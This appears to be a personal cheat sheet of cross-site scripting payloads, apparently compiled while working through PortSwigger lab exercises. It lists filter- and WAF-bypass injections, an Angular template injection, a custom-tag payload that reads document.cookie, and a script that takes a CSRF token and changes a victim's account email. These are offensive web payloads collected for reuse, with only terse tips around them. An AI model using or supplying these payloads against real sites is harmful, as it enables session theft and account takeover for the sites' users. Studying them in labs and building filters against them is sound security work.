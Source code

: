 ```yaml
---
title: Cross Site Scripting ( XSS )
tags:
  - payload
  - infosec
  - xss
---
```

# Unique scripts which used to bypass specify situations

```javascript
onmouseover="alert('xss')
"><svg onload="alert('xss')">
<img src=# onerror='alert(1)'>
javascript:alert('xss')
'-alert(document.domain)-'
';alert(document.domain)//
<svg><animatetransform onbegin=alert(1) attributeName=transform>
```

# DOM XSS with Angular expression

```javascript
{{constructor.constructor('alert(1)')()}}
```

# Arithmetic operator with JS –> Cause Reflected DOM XSS

```javascript
\"-alert(1)}//
```

# Stored DOM XSS bypass the encode bracket

```javascript
<><img src=1 onerror=alert(1)>
```

# Script for executing CSRF Form for XSS by using token CSRF

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

# Tip for causing XSS with block by WAF (web applications firewall)

- Brute force to find the tag can available
- Try to execute attribute with tag available
- And force the website do the event –> Execute the XSS. For example

```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

# Use own tag

>[!info]
>If on situation the server block all of tag can inject into the code –> we need to create them own like `<xss>`

```javascript
<xss+id=x+onfocus=alert(document.cookie) tabindex=1>#x
```

# Payload can help you filter xss via press event by key button to causing the reflect

```javascript
%27accesskey=%27x%27onclick=%27alert(1)
```

# Add `\` splash for bypass filter

>[!info]
>If some case study like they add black splash `/` after you input that with quote so with causing reflect xss using close tag for `</script>` for ignore that situation and after that causing payload

```javascript
<\script><script>alert(1)<\script>
```
